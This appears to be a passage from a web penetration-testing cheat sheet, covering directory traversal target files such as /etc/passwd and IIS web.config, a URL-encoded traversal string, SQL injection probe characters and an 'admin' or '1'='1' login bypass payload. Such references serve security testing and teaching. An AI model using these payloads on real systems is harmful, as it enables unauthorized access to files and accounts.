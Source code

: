 ```

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```


## Directory Traversal

### Linux 

Files to test directory traversal :
```
/etc/passwd
```
### Windows

Files to test directory traversal :
```
C:\Windows\System32\drivers\etc\hosts
```

If target system is running the _Internet Information Services_ (IIS) web server:
```
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

### Encoding Special Characters

URL encoding:
```
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
## SQL Injection

### SQLi Discovery

Try these payloads and see if it causes any errors or changes how the page behaves.

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

### Authentication Bypass

```
admin' or '1'='1
```
